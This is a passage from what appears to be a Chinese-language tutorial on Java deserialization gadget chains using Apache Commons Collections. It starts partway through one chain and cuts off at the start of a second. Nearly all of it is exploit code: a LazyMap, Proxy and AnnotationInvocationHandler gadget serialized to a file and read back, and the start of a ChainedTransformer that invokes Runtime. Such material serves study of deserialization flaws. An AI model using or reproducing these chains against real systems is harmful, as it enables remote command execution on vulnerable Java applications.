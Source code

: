 ```java
//
        Class<?> hander = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> handerConstructor = hander.getDeclaredConstructor(Class.class, Map.class);
        handerConstructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) handerConstructor.newInstance(Target.class, lazymap);

        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);

        Object o = handerConstructor.newInstance(Override.class, mapProxy);
//        serialize(o);
        unserialize();
    }

    public static Object unserialize() throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("cc2.bin"));
        return ois.readObject();
    }

    public static void serialize(Object o) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc2.bin"));
        oos.writeObject(o);
    }
}

```



### 第三条链子（不限制jdk）

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * 功能：
 *
 * @author 长瀞同学
 * @ClassName ${NAME}
 * @description ${DESCRIPTION}
 * @date 2023-05-30 23:27
 * @Version 1.0
 */
public class Main {
    public static void main(String[] args) throws Exception{

        ChainedTransformer transformer = new ChainedTransformer(new Transformer[]{
                // 提前将Runtime放进去
```